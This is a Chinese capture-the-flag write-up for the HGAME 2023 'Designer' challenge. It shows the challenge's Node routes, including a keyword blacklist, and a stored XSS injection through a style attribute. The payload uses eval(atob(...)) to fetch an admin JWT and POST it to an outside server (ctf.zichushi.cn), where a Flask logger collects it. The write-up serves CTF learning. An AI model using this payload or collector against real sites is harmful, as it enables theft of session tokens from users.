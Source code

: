 ## [HGAME 2023 week2]Designer

查看代码,只有本地登录的用户才能在JWT中拥有flag
<details>
<summary> button/share 路由代码 </summary>
```js
app.post("/button/share", auth, async (req, res) => {
    const browser = await puppeteer.launch({
    headless: true,
    executablePath: "/usr/bin/chromium",
    args: ['--no-sandbox']
    });
    const page = await browser.newPage()
    const query = querystring.encode(req.body)
    await page.goto('http://127.0.0.1:9090/button/preview?' + query)
    await page.evaluate(() => {
    return localStorage.setItem("token", "jwt_token_here")
    })
    await page.click("#button")
    
    res.json({ msg: "admin will see it later" })
})
```
</details>


题目的 `/button/share` 路由是打开浏览器访问 http://127.0.0.1:9090/button/preview 这个页面。这个页面也在代码的路由中，

<details>
<summary> button/preview 路由代码 </summary>
```js
app.get("/button/preview", (req, res) => {
  const blacklist = [
    /on/i, /localStorage/i, /alert/, /fetch/, /XMLHttpRequest/, /window/, /location/, /document/
  ]
  for (const key in req.query) {
    for (const item of blacklist) {
      if (item.test(key.trim()) || item.test(req.query[key].trim())) {
        req.query[key] = ""
      }
    }
  }
  res.render("preview", { data: req.query })
})
```
</details>

常见的注入点都被过滤了，比如onclick等，不过问题不大，查阅preview.ejs代码就很容易发现：

```html
	<a class="button" id="button" style="<% for (const key in data) {  %><%- key %>:<%- data[key] %> ;<% }; %>">
	CLICK ME
	</a>
```

按钮是通过字符串拼接的方式设置style的，因此，只需要有一个"就能将HTML语句截断，由于脚本中不能出现window等词语，因此，可以考虑使用atob函数解码字符串后，使用eval函数执行语句，构造的js脚本需要能获取localStorage中的内容，并上传到接收信息的服务器。以下是我构造的脚本：
<details>
<summary> xss脚本 </summary>
```js
async function r() {
    var a = new XMLHttpRequest();
    var b = new FormData();
    fetch('http://127.0.0.1:9090/user/register', {
        method: 'POST',
        body: { "username": "admin" }
    })
        .then(response => response.text())
        .then(data => {
            b.append('token', data);
            a.open('POST', "http://ctf.zichushi.cn:65502/a/stat.gif");
            a.send(b)
        })
}
r();
// 代码可能有点乱，我根据参考的writeup写的，fetch部分是gpt生成的
```
</details>

将上脚本base64编码，然后POST请求/button/share 接口，请求内容为：
```json
	{"border-radius":"\"><script>eval(atob('BASE64编码内容'))</script>"}
```

VPS中运行一个flask服务，接收请求
<details>
<summary> flask服务代码 </summary>
```python
from flask import Flask,request

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['POST','GET'])
def catch_all(path):
    app.logger.info(request.get_data())
    return 'yes'
if __name__ == '__main__':
    app.run(debug=True,port=65502,host='0.0.0.0')
```

</details>

在vps中等着日志就行

最后将日志中获得的jwt解码一下，就获得flag

参考 [vvbbnn00师傅的writeup](https://blog.vvbbnn00.cn/archives/hgame2023week2-bu-fen-writeup)




